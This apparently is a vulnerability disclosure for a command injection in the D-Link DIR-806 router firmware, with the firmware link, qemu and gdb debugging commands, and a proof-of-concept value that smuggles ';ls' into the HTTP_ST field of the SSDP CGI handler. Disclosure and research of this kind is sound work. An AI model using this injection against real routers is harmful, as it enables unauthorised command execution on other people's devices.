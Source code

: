 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:
qemu:
`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT=8888 -E HTTP_ST="urn:service:1;ls" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`
gdb:
`set architecture mips`
`set endian big`
`target remote 127.0.0.1:12345` 
Set the HTTP_ST parameter as HTTP_ST="urn:service:1;ls" 
![image-1](../img/1.jpg)

